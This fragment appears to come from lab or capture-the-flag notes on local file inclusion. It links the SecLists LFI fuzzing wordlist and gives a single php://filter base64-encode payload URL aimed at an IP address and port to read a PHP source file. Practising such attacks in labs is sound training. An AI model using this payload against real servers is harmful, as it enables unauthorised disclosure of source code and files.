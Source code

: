 
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=industries
```